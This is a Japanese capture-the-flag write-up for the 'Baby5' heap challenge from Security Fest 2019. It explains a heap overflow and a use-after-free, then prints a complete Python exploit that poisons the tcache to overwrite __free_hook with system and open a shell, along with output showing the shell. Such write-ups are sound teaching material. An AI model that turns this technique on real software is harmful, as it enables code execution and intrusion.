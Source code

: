 # [pwn 359pts] Baby5 - Security Fest 2019
64ビットでSSPが有効です。
```
$ checksec -f baby5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	0		2	baby5
```

add, edit, show, deleteがあるシンプルなヒープ系問題ですね。

addではサイズを指定してmallocできます。
mallocされたアドレスはグローバル変数listに追加され、dataをsizeバイトだけreadできます。

editではindexを入力し、list[index]が空でなければサイズを指定してreadできます。
この際新しいサイズが元よりも小さいかをチェックしていないのでヒープオーバーフローがあります。

deleteではindexを入力し、list[index]が空でなければfreeします。
この際listにNULLを代入していないのでUAFがあります。

showではindexを入力し、list[index]が空でなければ内容をputsします。

libcのバージョンは2.27なのでtcacheが有効で、シンプルにTCache Poisoningで解けそうです。

```python
from ptrlib import *

def add(size, data):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("size: ")
    sock.sendline(str(size))
    sock.recvuntil("data: ")
    sock.send(data)

def edit(index, size, data):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("item: ")
    sock.sendline(str(index))
    sock.recvuntil("size: ")
    sock.sendline(str(size))
    sock.recvuntil("data: ")
    sock.send(data)

def delete(index):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("item: ")
    sock.sendline(str(index))

def show(index):
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.recvuntil("item: ")
    sock.sendline(str(index))
    sock.recvuntil("data: ")
    return sock.recvline().rstrip()

libc = ELF("./libc.so.6")
sock = Process("./baby5")
main_arena = 0x3ebc40
delta = 0x60

# leak libc base
add(0x500, "A")
add(0x18, "B")
add(0x8, "/bin/sh\x00")
delete(0)
libc_base = u64(show(0)) - main_arena - delta
dump("libc base = " + hex(libc_base))

# tcache poisoning
delete(1)
delete(1)
add(0x18, p64(libc_base + libc.symbol("__free_hook")))
add(0x18, "C")
add(0x18, p64(libc_base + libc.symbol("system")))

# get the shell
delete(2)

sock.interactive()
```

一発で通ったぜ。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=14607)
[ptrlib] libc base = 0x7f783dea4000
[ptrlib]$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
10分で解けた。肉じゃが作るより早い。
